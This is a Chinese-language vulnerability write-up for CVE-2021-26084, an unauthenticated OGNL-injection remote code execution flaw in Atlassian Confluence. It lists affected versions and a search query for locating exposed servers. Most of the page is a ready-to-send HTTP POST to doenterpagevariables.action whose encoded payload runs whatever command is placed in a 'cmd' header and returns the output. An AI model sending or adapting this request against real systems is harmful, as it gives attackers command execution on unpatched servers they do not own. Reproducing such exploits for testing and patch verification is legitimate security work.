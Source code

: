 # Atlassian Confluence doenterpagevariables.action 远程命令执行漏洞 CVE-2021-26084

## 漏洞描述

Atlassian Confluence 存在远程代码执行漏洞，攻击者在无需认证，即可构造恶意请求，造成OGNL表达式注入，从而执行任意代码，控制服务器。

## 漏洞影响

```
Atlassian Atlassian Confluence < 7.4.11
Atlassian Atlassian Confluence < 7.11.6
Atlassian Atlassian Confluence < 7.13.0
Atlassian Atlassian Confluence < 6.13.23
Atlassian Atlassian Confluence < 7.12.5
```

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

## 漏洞复现

登录页面

![image-20220524142010885](./images/202205241420961.png)

发送请求包

```
![1](C:/Users/47236/Desktop/1.png)POST /pages/doenterpagevariables.action HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 599
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=3E654B6F4ADDF325CA2203596BD0115C
cmd: id
    
queryString=%5Cu0027%2B%23%7B%5Cu0022%5Cu0022%5B%5Cu0022class%5Cu0022%5D.forName%28%5Cu0022javax.script.ScriptEngineManager%5Cu0022%29.newInstance%28%29.getEngineByName%28%5Cu0022js%5Cu0022%29.eval%28%5Cu0022var+c%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getRequest%28%29.getHeader%28%5Cu0027cmd%5Cu0027%29%3Bvar+x%3Djava.lang.Runtime.getRuntime%28%29.exec%28c%29%3Bvar+out%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getResponse%28%29.getOutputStream%28%29%3Borg.apache.commons.io.IOUtils.copy%28x.getInputStream%28%29%2Cout%29%3Bout.flush%28%29%3B%5Cu0022%29%7D%2B%5Cu0027
```

![]()![1](./images/202205241420313.png)